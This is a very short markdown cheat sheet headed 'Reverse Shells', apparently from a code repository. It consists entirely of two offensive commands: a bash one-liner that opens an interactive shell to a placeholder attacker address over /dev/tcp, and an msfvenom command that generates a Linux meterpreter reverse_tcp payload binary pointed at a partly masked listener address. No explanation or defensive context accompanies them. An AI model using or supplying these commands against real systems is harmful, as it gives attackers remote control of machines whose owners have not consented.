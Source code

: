 # Reverse Shells

## Bash
`bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin
